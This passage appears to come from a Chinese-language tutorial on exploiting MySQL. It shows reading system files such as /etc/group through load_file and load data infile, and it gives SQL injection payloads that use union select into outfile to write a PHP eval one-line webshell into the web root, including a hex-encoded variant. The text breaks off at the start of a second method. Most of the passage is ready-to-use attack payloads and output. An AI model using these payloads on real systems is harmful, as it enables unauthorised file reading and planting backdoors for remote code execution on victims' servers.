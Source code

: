 或者用system cat 在mysql5.x版本以上，可使用。 只能本地读取，不能远程连接mysql使用。 无法越权读取。

```
mysql> system cat /tmp/a.php;
<?PHP phpinfo(); ?>
```

例： 

create table test(txt text);                                            #创建表test
insert into test(txt) values (load_file('/etc/group')); #把系统group的内容写入test表里
或者用
load data infile '/etc/group' into table test;

```
mysql> create table test(txt text);
Query OK, 0 rows affected (0.01 sec)

mysql> load data infile '/etc/group' into table test;
Query OK, 79 rows affected (0.01 sec)
Records: 79  Deleted: 0  Skipped: 0  Warnings: 0

mysql> select * from test;
+----------------------------+
| txt                        |
+----------------------------+
| root:x:0:                  |
| bin:x:1:                   |
| daemon:x:2:                |
| sys:x:3:                   |
| adm:x:4:                   |
| tty:x:5:                   |
......
中间省略
......
| mysql:x:27:                |
+----------------------------+
79 rows in set (0.00 sec)

```

###### 写入WebShell的几种方式

**1、利用Union select 写入**

这是最常见的写入方式，`union` 跟`select into outfile`，将一句话写入`evil.php`，仅适用于联合注入。

具体权限要求：`secure_file_priv`支持`web`目录文件导出、数据库用户File权限、获取物理路径。

```
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'

?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
```

**2、利用分隔符写入**
